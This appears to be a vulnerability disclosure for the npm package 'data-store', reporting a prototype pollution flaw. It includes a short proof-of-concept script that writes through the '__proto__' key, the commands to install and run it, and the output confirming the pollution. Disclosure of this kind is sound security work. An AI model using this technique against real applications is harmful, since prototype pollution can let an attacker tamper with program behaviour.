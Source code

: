 # Description

`data-store` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
const store = require('data-store')({ path: process.cwd() + '/foo.json' });
store.set('__proto__.polluted', 'Yes! Its Polluted');
console.log(store.get('polluted'))
```

2. Execute the following commands in terminal:

```
npm i data-store # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Yes! Its Polluted
```
